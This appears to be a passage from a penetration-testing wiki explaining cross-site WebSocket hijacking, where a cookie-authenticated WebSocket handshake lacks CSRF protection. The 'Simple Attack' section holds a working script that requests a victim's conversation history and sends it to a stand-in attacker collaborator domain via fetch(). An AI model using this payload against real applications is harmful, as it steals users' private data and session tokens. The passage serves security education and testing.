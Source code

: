 ## Websocket Lab

In [**Burp-Suite-Extender-Montoya-Course**](https://github.com/federicodotta/Burp-Suite-Extender-Montoya-Course) you have a code to launch a web using websockets and in [**this post**](https://security.humanativaspa.it/extending-burp-suite-for-fun-and-profit-the-montoya-way-part-3/) you can find an explanation.

## Cross-site WebSocket hijacking (CSWSH)

Also known as _cross-origin WebSocket hijacking_.\
**It is a** [**Cross-Site Request Forgery (CSRF)**](csrf-cross-site-request-forgery.md) **on a WebSocket handshake.**

It arises when the **WebSocket handshake** request relies solely on **HTTP cookies** for session handling and does **not contain any CSRF tokens** or other unpredictable values.\
An attacker can create a **malicious web page** on their own domain which **establishes a cross-site WebSocket** connection to the vulnerable application. The application will handle the connection in the **context of the victim user's session** with the application.

### Simple Attack

Note that when **establishing** a **websocket** connection the **cookie** is **sent** to the server. The **server** might be using it to **relate** each **specific** **user** with his **websocket** **session based on the sent cookie**.

Then, if for **example** the **websocket** **server** **sends back the history of the conversation** of a user if a msg with "**READY"** is sent, then a **simple XSS** establishing the connection (the **cookie** will be **sent** **automatically** to authorise the victim user) **sending** "**READY**" will be able to **retrieve** the history of the **conversation**.:

```markup
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```

### Cross Origin + Cookie with a different subdomain

In this blog post [https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/) the attacker managed to **execute arbitrary Javascript in a subdomain** of the domain where the web socket communication was occurring. Because it was a **subdomain**, the **cookie** was being **sent**, and because the **Websocket didn't check the Origin properly**, it was possible to communicate with it and **steal tokens from it**.
